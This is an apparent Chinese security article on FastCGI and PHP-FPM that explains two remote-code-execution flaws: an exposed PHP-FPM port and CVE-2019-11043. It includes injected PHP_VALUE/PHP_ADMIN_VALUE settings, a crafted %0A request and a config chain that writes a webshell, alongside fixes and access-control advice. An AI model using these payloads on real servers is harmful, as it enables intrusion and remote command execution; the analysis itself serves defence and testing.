



## 0x00 FastCGI 是什么
FastCGI模式是CGI模式的优化升级版，主要解决了CGI模式性能不佳的问题。
FastCGI其实是一个协议，是在CGI协议上进行了一些优化。众所周知，CGI进程的反复加载是CGI性能低下的主要原因，如果CGI解释器能够保持在内存中并接受FastCGI进程管理器调度，则可以提供良好的性能、伸缩性、Fail-Over特性等等，而这些改进正是FastCGI所提供的。

## 0x01 FastCGI 的数据结构
### FastCGI record
类比HTTP协议来说，fastcgi协议则是http服务和某个语言后端进行数据交换的协议。Fastcgi协议由多个record组成，record包括header和body，http服务将这二者按照fastcgi的规则封装好发送给语言后端，语言后端解码以后拿到具体数据，进行指定操作，并将结果再按照该协议封装好后返回给http服务。
和HTTP头不同，record的头固定8个字节，body是由头中的contentLength指定，其结构如下：

``` c
typedef struct {
  /* Header */
  unsigned char version; // 版本
  unsigned char type; // 本次record的类型
  unsigned char requestIdB1; // 本次record对应的请求id
  unsigned char requestIdB0;
  unsigned char contentLengthB1; // body体的大小
  unsigned char contentLengthB0;
  unsigned char paddingLength; // 额外块大小
  unsigned char reserved; 

  /* Body */
  unsigned char contentData[contentLength];
  unsigned char paddingData[paddingLength];
} FCGI_Record;
```
### FastCGI type
type就是指定该record的作用。因为fastcgi一个record的大小是有限的，作用也是单一的，所以我们需要在一个TCP流里传输多个record。通过type来标志每个record的作用，用requestId作为同一次请求的id。
下面列出了常见的几种type 取值含义：

如上表格所示，http服务和后端语言通信，第一个数据包就是type为1的record，后续交互中发送type为4、5、6、7的record，结束时发送type为2、3的record。
当后端语言接收到一个type为4的record后，就会把这个record的body按照对应的结构解析成key-value对，这就是**环境变量**。

## 0x02 PHP-FPM 是什么
FPM其实是一个fastcgi协议解析器，Nginx等http服务将用户请求按照fastcgi的规则打包好通过TCP传给谁？其实就是传给FPM。
举个例子，用户访问`http://127.0.0.1/index.php?a=1&b=2`，根据nginx 的相关配置会把请求转发给监听在本地9000端口的fpm 进程来处理。

```
location ~ \.php$ {
      index index.php index.html index.htm;
      include /etc/nginx/fastcgi_params;
      fastcgi_pass 127.0.0.1:9000;
      fastcgi_index index.php;
      include fastcgi_params;
 }
```
如果web目录是/var/www/html，那么Nginx会将这个请求变成如下key-value对（type=4）：
```
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
}
```
这个数组其实就是PHP中$_SERVER数组的一部分，也就是PHP里的环境变量。PHP-FPM拿到fastcgi的数据包后，进行解析，得到上述这些环境变量。然后执行SCRIPT_FILENAME的值指向的PHP文件，也就是/var/www/html/index.php。
## 0x03 PHP-FPM未授权访问漏洞
顾名思义，PHP-FPM未授权访问漏洞，也就是PHP-FPM的服务端口绑定在全网监听而非绑定在本地127.0.0.1的端口上，从而导致攻击者可以从公网通过构造FastCGI报文来攻击PHP-FPM，进而导致任意代码执行。
那么如何实现任意代码执行呢？

FastCGI协议只可以传输配置信息及需要被执行的文件名及客户端传进来的GET、POST、Cookie等数据。看上去我们即使能传输任意协议包也不能任意代码执行，但是我们可以通过更改配置信息来执行任意代码（除disable_function以外的大部分PHP配置，都可以通过FastCGI协议包来更改，具体的可参考php手册：`https://www.php.net/manual/zh/ini.list.php`）。

### auto_prepend_file和auto_append_file
这两个选项是php.ini中年的两个可利用的选项。

auto_prepend_file选项是告诉PHP在执行目标文件之前，先包含auto_prepend_file中指定的文件，并且auto_prepend_file可以使用PHP伪协议；auto_append_file选项同理，区别在于执行目标文件之后才会包含指定文件。

此时，我们可以将auto_prepend_file的值设置为php://input伪协议，其可通过POST的方式将我们的数据传进来，那么就等于在执行任何php文件前都要包含一遍POST的内容。因此，我们只需要把待执行的代码放在Body中就可以实现任意代码执行了。

接着又一个问题，我们怎么设置auto_prepend_file的值呢？此外，php://input伪协议也是需要开启allow_url_include选项的，那又在哪里设置开启呢？

### PHP_VALUE和PHP_ADMIN_VALUE
PHP_VALUE和PHP_ADMIN_VALUE是PHP-FPM的两个环境变量。PHP_VALUE可以设置模式为PHP_INI_USER和PHP_INI_ALL的选项，PHP_ADMIN_VALUE可以设置所有选项（disable_functions除外，这个选项是PHP加载的时候就确定了，在范围内的函数直接不会被加载到PHP上下文中）。

由前面分析的FastCGI协议知道，type为4的record是键值对的形式，因此我们可以直接在报文中添加这两个PHP-FPM的环境变量来进行设置：
```
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
    'PHP_VALUE': 'auto_prepend_file = php://input', # 危险，不要在生产环境测试
    'PHP_ADMIN_VALUE': 'allow_url_include = On' # 危险，不要在生产环境测试
}
```
设置auto_prepend_file = php://input且allow_url_include = On，然后将我们需要执行的代码放在Body中，即可执行任意代码。

另外，SCRIPT_FILENAME选项需要我们设置一个服务端已存在的PHP文件（如`/usr/local/lib/php/PEAR.php`），该选项是让PHP-FPM执行目标服务器上的文件，且由于security.limit_extensions项（PHP 5.3.9增加）的限制导致只能执行PHP文件（否则可以造成读取任意文件）。
执行效果如下图所示：


## 0x04 PHP-FPM + Nginx RCE CVE-2019-11043
### 漏洞概述
由于请求 \n(%0a) 传入导致 Nginx 传递给 php-fpm 的 PATH_INFO 为空，进而导致可通过 FCGI_PUTENV 与 PHP_VALUE 相结合，修改当前 php-fpm 进程中的 php 配置，在特殊构造的配置情况下，可以远程执行任意代码。
### 漏洞成因
```
location ~ [^/]\.php(/|$) {
    fastcgi_split_path_info ^(.+?\.php)(/.*)$;
    fastcgi_param PATH_INFO $fastcgi_path_info;
    ...
}
```
当nginx 配置文件存在如上配置时，请求输入的uri 含有\n 符号时导致截断，经过巧妙的构造，使得FCGI_PUTENV写入特定位置，污染环境变量PHP_VALUE，修改fpm的ini的变量设置，如若发起`GET /index.php/PHP_VALUE%0Aerror_reporting=9;;;;;;?....` 的请求会将 error_reporting 设置为9，详细过程请参考附录链接。
### 漏洞执行过程
漏洞可污染 PHP-FPM 进程中 PHP 环境变量，POC工具 [phuip-fpizdam](https://github.com/neex/phuip-fpizdam) 逐步修改 PHP 环境变量，利用报错信息写入 WebShell 来实施远程命令执行。


```c
  var chain = []string{
         "short_open_tag=1", //开启php短标签
         "html_errors=0",   // 在错误信息中关闭HTML标签。
         "include_path=/tmp",  //包含路径
         "auto_prepend_file=a",  //指定脚本执行前自动包含的文件，功能类似require()。
         "log_errors=1",  //使能错误日志
         "error_reporting=2",   //指定错误级别
         "error_log=/tmp/a",  //错误日志记录文件
         "extension_dir=\"<?=\`\"",   //指定extension的加载目录
        "extension=\"$_GET[a]\`?>\"", //指定加载的extension
    }
```
 当设置如上 PHP配置变量时，由于第三方文件扩展 (extension_dir + extension) <?=`$_GET[a]`?> 不存在，会触发错误并写入到 /tmp/a 文件，则成功在目标机器写入 webshell 文件，并且以 `?a=cmd` 形式发起请求，均会触发命令执行（执行任意php 文件前先prepend /tmp/a 文件）。
### 影响范围
该漏洞影响以下版本的PHP：
7.1.x < 7.1.33
7.2.x < 7.2.24
7.3.x < 7.3.11

### 漏洞修复
1. 在不影响业务的情况下，删除Nginx配置文件中的如下配置进行修复：
```
fastcgi_split_path_info  ^(.+?\.php)(/.*)$;
fastcgi_param PATH_INFO  $fastcgi_path_info;
```
## 0x05 总结
1. php-fpm一般会启动多个进程，如果变更了PHP_VALUE等环境变量，访问的这个进程的配置项就改变了，但不影响其他进程；如果多访问几次，就可能把所有进程的配置项都改了，而且是永久改的，直到下次重启fpm，这里风险较大，**故切勿对生产环境进行测试！**
2. php-fpm 正常情况下应该监听在本地的9000端口。对于php-fpm监听端口对外开放（一般情况下是用于nginx/apache与fastcgi 分离，即 fastcgi_pass ip 不是 127.0.0.1，而是某个内网ip），均需做访问控制，只允许指定的IP访问。
3. 两个漏洞获取服务器权限的方式相似，都是利用fastcgi中的PHP_VALUE 环境变量修改php-fpm的ini，但是php-fpm未授权访问是发送包含PHP_VALUE的fastcgi请求，而php-fpm+nginx rce 漏洞则是fpm处理恶意fastcgi请求逻辑错误导致PHP_VALUE被覆盖。
4. 安全测试人员在写相关的poc 时需要注意涉及到相关进程环境变量的变更可能是永久的，直到进程重启，故需要特别谨慎，测试完也需要删除相关的poc 落地后门等文件。
## 0x06 参考
* https://www.mi1k7ea.com/2019/08/25/%E6%B5%85%E8%B0%88PHP-FPM%E5%AE%89%E5%85%A8/
* https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html
* https://segmentfault.com/a/1190000021000475
* http://www.secwk.com/2019/10/30/12305/
* https://l0gs.xf0rk.space/2019/10/23/php-cve-2019-11043/
* https://github.com/neex/phuip-fpizdam
* https://lab.wallarm.com/php-remote-code-execution-0-day-discovered-in-real-world-ctf-exercise/
* https://bugs.php.net/bug.php?id=78599